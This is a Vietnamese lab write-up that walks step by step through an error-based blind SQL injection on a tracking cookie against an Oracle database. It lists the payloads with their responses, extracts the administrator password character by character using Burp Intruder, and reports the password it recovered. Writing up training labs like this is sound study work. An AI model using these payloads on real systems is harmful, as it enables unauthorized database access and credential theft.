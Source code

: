 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng Blind SQL injection trong cookie theo dõi.
- Ứng dụng thực hiện truy vấn SQL chứa giá trị cookie.
- Kết quả truy vấn SQL không được trả về, và ứng dụng không phản hồi khác nhau dựa trên việc truy vấn trả về hàng.
- Nếu truy vấn SQL gây ra lỗi, ứng dụng trả về thông báo lỗi tùy chỉnh.
- Cơ sở dữ liệu chứa bảng users với các cột username và password.
# Yêu cầu:
- Khai thác lỗ hổng Blind SQL injection để tìm mật khẩu của người dùng administrator.
- Đăng nhập với tư cách người dùng administrator.

# Solution:
- ' -> 500
- '' -> 200
(TrackId= 'xyz''' nếu viết 1 cái thì bị lỗi do thừa, còn 2 cái thì nó kết thành 2 cái kiểu chuỗi nối với nhau ý, nên nó ko lỗi nữa)

- ' || (SELECT '') ||' -> 500
- ' || (SELECT '' FROM dual) ||' -> là Oracle, vì bị bắt chỉ rõ tên bảng.

(`dual` là một bảng đặc biệt trong Oracle, thường dùng cho các truy vấn không cần truy cập dữ liệu thực tế)

- ' || (SELECT '' FROM dualdbajdsh) ||' -> Thử đổi tên bảng thì lỗi 500, vậy...
- ' || (SELECT '' FROM users) ||' -> 500
- ' || (SELECT '' FROM users WHERE ROWNUM = 1) ||'

(điều kiện `ROWNUM = 1` phải có vì để ghép chuỗi thì chỉ có thể lấy dữ liệu 1 dòng, nếu nhiều dòng thì không thể ghép nên mới gây ra lỗi 500 như trên)

- '|| (SELECT '' FROM users WHERE username = 'administrator') ||' -> 200

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||' -> 500
- ' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||' -> 200

- '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||' -> 500, tương tự thôi, để kiểm tra xem administrator có tồn tại hay không

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND LENGTH(password) = 20) ||'
Check độ dài pass thì là 20

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTRING(password,1,1) = 'a') ||'

' || (SELECT CASE WHEN SUBSTRING(password,1,1) = 'a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'

Sai ở SUBSTRING nhé, dùng SUBSTR() với Oracle nè.

- Xong đẩy lên Intruder: 

![image](https://github.com/user-attachments/assets/be31c305-8efc-4ebe-8aed-fa41db1e4db9)

![image](https://github.com/user-attachments/assets/56eacb2c-9a55-439b-9266-d6dec239786d)

- Ta được pass: zh6rauox597khm8eumjx
- Đăng nhập và hoàn thành lab
